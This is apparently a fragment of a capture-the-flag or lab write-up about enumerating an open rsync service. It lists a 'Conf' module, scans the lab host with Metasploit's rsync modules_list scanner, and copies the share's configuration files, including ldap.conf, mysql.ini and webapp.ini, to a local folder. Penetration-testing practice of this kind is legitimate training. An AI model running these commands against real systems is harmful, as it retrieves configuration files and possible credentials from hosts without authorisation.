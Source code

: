 `rsync -av --list-only rsync://$target_ip/Conf`

```jsx
receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 16:03:08 .
-rw-r--r--          4,620 2021/04/09 16:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 15:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 16:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 16:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 16:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 15:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 15:56:56 php.ini
-rw-r--r--            320 2021/04/09 16:03:16 ports.conf
-rw-r--r--            589 2021/04/09 16:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 16:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 16:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 16:03:06 webapp.ini

sent 20 bytes  received 379 bytes  114.00 bytes/sec
total size is 193,430  speedup is 484.79
```

`msfconsole -qx 'use auxiliary/scanner/rsync/modules_list'`

```jsx
msf6 auxiliary(scanner/rsync/modules_list) > set RHOSTS 10.10.227.36
RHOSTS => 10.10.227.36
msf6 auxiliary(scanner/rsync/modules_list) > run

[+] 10.10.227.36:873      - 1 rsync modules found: Conf
[*] 10.10.227.36:873      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`mkdir metarsync`

`rsync -av rsync://$target_ip/Conf metarsync`

```jsx
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini
```

`ls -lsa metarsync`
